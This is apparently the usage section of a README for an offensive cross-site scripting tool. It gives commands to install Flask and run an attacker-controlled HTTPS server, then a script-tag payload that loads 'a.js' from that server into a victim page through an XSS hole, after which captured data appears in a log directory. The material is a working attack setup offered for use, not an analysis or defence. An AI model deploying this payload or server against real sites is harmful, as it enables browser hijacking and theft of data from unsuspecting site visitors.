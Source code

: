 
### usage
* requires python 3 and flask

```bash
sudo apt update && sudo apt install -y python3-flask
```

* put ssl files in project (cert.pem, key.pem)

* run on your server:

```bash
sudo python3 server.py 443
```

* load this script with an xss:
```html
<script/src="https://yourserver/a.js"></script>
```

* see the files in the log directory
